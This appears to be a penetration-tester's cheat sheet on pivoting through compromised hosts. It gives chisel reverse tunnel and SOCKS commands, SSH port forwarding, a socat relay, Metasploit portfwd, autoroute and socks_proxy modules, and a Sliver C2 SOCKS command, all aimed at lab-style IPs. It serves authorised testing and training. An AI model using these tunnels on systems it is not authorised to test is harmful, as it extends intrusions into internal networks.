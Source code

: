 ```yaml
---
title: "Network Traffic Pivoting"
date: 2024-6-26
tags: ["pivot", "chisel", "ssh", "metasploit", "network", "socat", "port forward", "tunneling"]
---
```


---
### Chisel 

<small>[Download chisel](https://github.com/jpillora/chisel)</small>

#### Start a Local chisel Server

```bash
# In our local Linux machine
./chisel server --reverse --port 8000
```

#### chisel with ports

```bash
# In target machine
./chisel client 10.10.14.10:8000 R:8080:127.0.0.1:8080
```

```bash
# Mutiple ports fowarding, can be different targets in the same subnet
./chisel client 10.10.14.10:8000 R:8080:172.17.0.2:8080 R:5000:172.17.0.3:5000
```

#### chisel with socks5

```bash
# In our local Linux machine
sudo nano /etc/proxychains4.conf
```

```bash
# Add to the end of the file
socks5 127.0.0.1 1080
```

```bash
# In target machine
./chisel client 10.10.11.10:8000 R:1080:socks
```

```bash
# Usage, in our local machine
proxychains4 curl http://127.0.0.1:1080
```

<br>

---

### SSH

```bash
# SSH port forwarding without spawning a shell
ssh -N -L 8080:127.0.0.1:8080 <USER>@10.10.11.10
```

<br>

---

### socat

```bash
# Any traffic go to port 1337 will be forwarded to 10.10.14.10:1337
./socat tcp-listen:1337,fork tcp:10.10.14.10:1337 &
```

<br>

---

### Metasploit

#### Ports

```bash
# Add
portfwd add -l 80 -r 127.0.0.1 -p 80
```

```bash
# Delete
portfwd delete -l 80 -r 127.0.0.1 -p 80
```

#### Socks

```bash
# First add routes to target subnet
use post/multi/manage/autoroute
```

```bash
set session <ID>
```

```bash
run
```

```bash
# Then create socks proxy
use auxiliary/server/socks_proxy
```

```bash
run
```

### Sliver C2

```bash
socks5 start
```

<br>


